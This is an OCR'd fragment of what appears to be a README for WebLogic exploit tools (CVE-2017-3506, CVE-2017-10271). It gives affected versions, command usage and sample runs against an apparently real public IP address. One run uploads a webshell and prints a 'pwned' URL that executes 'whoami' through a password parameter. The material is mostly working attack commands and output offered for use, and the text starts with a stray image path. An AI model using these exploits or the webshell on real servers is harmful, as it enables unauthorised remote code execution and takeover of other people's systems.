 > + EXP: python cve-2017-3506_poc.py 59.110.214.109:7001   +
> +--------------------------------------------------------+
> ```
> EXP:
> ```
> zhzy@debian:$ python cve-2017-3506_poc.py 59.110.214.109:7001
> [+] CVE-2017-3506 Vulnerability
> zhzy@debian:$ python cve-2017-3506_poc.py 59.110.214.109:7000
> [-] No Vulnerability
> ```

## cve-2017-3506_webshell.jar Weblogic wls-wsat远程命令执行漏洞利用，上传Webshell
> VER:
> ```
> 10.3.6.0
> 12.1.3.0
> 12.2.1.0
> 12.2.1.1
> 12.2.1.2 
> ```
> USE:
> ```
> zhzy@debian:$ java -jar cve-2017-10271_webshell.jar 
> [*]              Oracle : WebLogic wls-wsat RCE Exp
> [*]              CVE ID : CVE-2017-3506 & CVE-2017-10271
> [*]  Vulnerability info : https://secfree.com/article-635.html
> [*]              Author : Bearcat@secfree.com
> [*]  Vulnerability page ：wls-wsat/CoordinatorPortType & wls-wsat/CoordinatorPortType11 
> [*]               Usage ：java -jar WebLogic_Wls-Wsat_RCE_Exp.jar http://xxx.xxx.xxx.xxx:7001 test.jsp
> [*] Vulnerability patch : http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html
> ```
> EXP:
> ```
> zhzy@debian:$ java -jar cve-2017-10271_webshell.jar http://59.110.214.109:7007 > shell.jsp
> [*] Starting exploit...
> [*] Sending payloads...
> [*] Payloads sent...
> [*] Opening shell...
> [*] pwned! Go ahead...
> 
> [+] http://59.110.214.109:7007/bea_wls_internal/shell.jsp?password=secfree&command=whoami
> ```

## cve-2017-10271_poc.jar Weblogic wls-wsat XMLDecoder反序列化漏洞检测脚本
> VER:
> ```
> Oracle WebLogic Server10.3.6.0.0 版本
> Oracle WebLogic Server12.1.3.0.0 版本
> Oracle WebLogic Server12.2.1.1.0 版本
> Oracle WebLogic Server12.2.1.2.0 版本
> ```
> USE:
> ```
> zhzy@debian:$ java -jar cve-2017-10271_poc.jar 
> 
> [*]         	WebLogic wls-wsat组件反序列化漏洞检测工具
> [*]      CVE编号  CVE-2017-10271
> [*]     漏洞详情  https://www.secfree.com/article-635.html